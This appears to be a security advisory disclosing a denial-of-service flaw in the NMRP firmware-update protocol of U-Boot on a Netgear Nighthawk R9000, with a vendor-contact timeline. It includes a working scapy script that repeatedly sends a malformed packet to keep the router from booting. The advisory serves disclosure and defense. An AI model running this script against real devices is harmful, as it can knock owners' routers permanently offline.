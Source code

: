 # Denial of Service in NMRP Protocol

Published: April 1, 2021

CVSS:3.0/AV:A/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H [6.5]

# Prior Art

[http://www.chubb.wattle.id.au/PeterChubb/nmrp.html](http://www.chubb.wattle.id.au/PeterChubb/nmrp.html)

[https://github.com/jclehner/nmrpflash](https://github.com/jclehner/nmrpflash)

## Overview

The NMRP protocol is a debug feature used to update firmware images on Netgear Routers over the LAN.  This protocol does not require authentication.  NMRP is a Layer 2 protocol based on Ethernet.  The NMRP daemon starts for three seconds before the U-Boot bootloader begins the boot process of the primary Linux operating system. This is evident by checking the `bootcmd` environment variable within U-Boot:

```
ALPINE_DB> printenv bootcmd
bootcmd=nmrp;run check_dni_image;run bootargsnand;qca8337_init_one; ledtoggle;sleep 1;run bootnand
```

This is the version of U-Boot testing was completed against as output from the U-Boot bootloader:

```
U-Boot 2015.01-gd836bbb (Jul 22 2016 - 13:32:00)
```

The specific device used for testing was a Netgear Nighthawk R9000 (x10) router.

## Vulnerability

Multiple memory corruption issues exist within the NMRP protocol implementation within U-Boot. Any of these vulnerabilities can be exploited to cause the bootloader to hang and no longer accept input from either the network or the primary UART console.  The only option is to cut the power in order to restart the device. This results in preventing the operating system from loading and thus the device being operable.  An attacker with a wired LAN connection can repeatedly emit these malicious packets so that every time the device attempts to boot, the vulnerability is triggered and the device doesn't boot into Linux.  The end result is an attacker on the wired LAN can prevent the router from ever achieving an operational state.

## Proof of Concept

A python-based proof of concept script is provided to demonstrate the vulnerability. You will need the `scapy` package installed in order to run this script.  `scapy` can be installed with pip: `pip3 install scapy`. Additionally, the script will need to be run with root privileges in order to send layer 2 packets.

```python
from scapy.all import *
import time

SRC_MAC_ADDRESS = "dc:a6:32:1b:1d:c6"
DST_MAC_ADDRESS = "cc:40:d0:5d:a2:84"

pkt = Ether(src=SRC_MAC_ADDRESS, dst=DST_MAC_ADDRESS, type=0x912) / b'\x00\x00\x01\x00\x00\x0e\x00\x01\x00\x00NTGR\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

while True:
  sendp(pkt, iface='eth0') # change iface to match ethernet NIC connected to router.
  time.sleep(0.95)
```

This vulnerability works by setting the options length to `0x0000` for the initial advertisement packet that is sent to initiate the firmware upload process. Note that you will need to change the `SRC_MAC_ADDRESS` and `DST_MAC_ADDRESS` variables to match your lab configuration, and you may need to change the value for `iface` in the `sendp` invocation to match your ethernet adapter which is connected to the router. The ethernet connection must be on the first ethernet port on the router.

## Extrapolation

During testing, many different packets were crafted and sent to the device.  Some crafted packets resulted in an error message and subsequent device reload. The aforementioned proof of concept is not the only packet which results in a device hang; there were too many combinations to list individually in this write up.  It is recommended that the vendor review the source code for the NMRP protocol and conduct an internal audit for additional memory corruption issues.

## Time Line

* January 31st, 2021: Notified Vendor of Vulnerability - stated intent to disclose April 1st, 2020.
* February 07, 2021: No response, sent reminder email asking for acknowledgement.
* February 15, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 201: Tweeted @NETGEAR to attempt contact. [https://twitter.com/nstarke/status/1363552292729946113](https://twitter.com/nstarke/status/1363552292729946113)
* March 21, 2021: No response, sent another reminder email asking for acknowledgement.
* March 21, 2021: Tweeted @NETGEAR again to attempt contact. [https://twitter.com/nstarke/status/1373701891801104385](https://twitter.com/nstarke/status/1373701891801104385)
* March 24, 2021: Received tweet from @NETGEAR_UKI directing me to their bug bounty program. [https://twitter.com/NETGEAR_UKI/status/1374834049483599872](https://twitter.com/NETGEAR_UKI/status/1374834049483599872)
* March 24, 2021: Responded saying I cannot disclose through the bug bounty program.  [https://twitter.com/nstarke/status/1374834668177096705](https://twitter.com/nstarke/status/1374834668177096705)
* April 1, 2021: Public Disclosure

[Back](/)